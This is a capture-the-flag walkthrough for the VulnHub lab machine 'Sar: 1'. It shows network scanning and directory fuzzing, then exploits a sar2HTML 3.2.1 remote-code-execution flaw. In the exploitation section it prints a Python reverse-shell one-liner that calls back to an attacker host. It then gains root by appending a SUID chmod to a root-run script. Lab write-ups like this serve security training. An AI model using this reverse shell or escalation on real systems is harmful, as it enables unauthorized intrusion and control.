



# Information

- Name: Sar: 1
- Date Release: 15 Feb 2020
- Author: Love
- Series: Sar
- Link: https://www.vulnhub.com/entry/sar-1,425/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery 
Host Discovery is performed using [arpScan](https://github.com/Tools) with fast mode. In this case the ip's machine is 10.0.2.12.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:80:b6:4c 10.0.2.3
[*] 08:00:27:f9:32:fa 10.0.2.12
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools).The tool report that there is only one open port (80).

```Console
# python portScanr.py -i 10.0.2.12
[*] Port 80 (http) open
```

## Web 

With _whatweb_ you can enum the versions running on the web server. Nothing interesting, an Apache 2.4.29 and Ubuntu.

```Console
# whatweb http://10.0.2.12
http://10.0.2.12 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.0.2.12], Title[Apache2 Ubuntu Default Page: It works]
```
The _index.html_ is the default page of Apache.


Let's try fuzzing with gobuster to discover directories and files.

```Console
# gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 40 -u http://10.0.2.12
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.12
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2022/09/01 18:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 9]
/phpinfo.php          (Status: 200) [Size: 95357]
/server-status        (Status: 403) [Size: 274]

===============================================================
2022/09/01 18:09:00 Finished
===============================================================
```

In _robots.txt_ you can see "sar2HTML", if add it to the url you are going to see another page.



## Exploitation

Sar2HTML is a plotting tools for system stats. The version running is 3.2.1, that is vulnerable to [RCE](https://www.exploit-db.com/exploits/47204). Lets try get a reverse shell via RCE with the reverse shell:

```Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```



## Privilege Escalation

Lets monitorize the machine with pspy. You can see that in /var/www/html/ there are two scripts executing: _write.sh_ and _finally.sh_

```Console
bash-4.4$ cat finally.sh write.sh
#!/bin/sh

./write.sh

#!/bin/sh

touch /tmp/gateway
```
The _finally.sh_ is executing _write.sh_ by root. You can assign SUID perm to /bin/bash to be root.

```Console
bash-4.4$ echo "chmod u+s /bin/bash" >> write.sh
bash-4.4$ cat write.sh
#!/bin/sh

touch /tmp/gateway
chmod u+s /bin/bash
bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  7  2019 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt /home/love/Desktop/user.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
427a7e47deb4a8649c7cab38df232b52
```


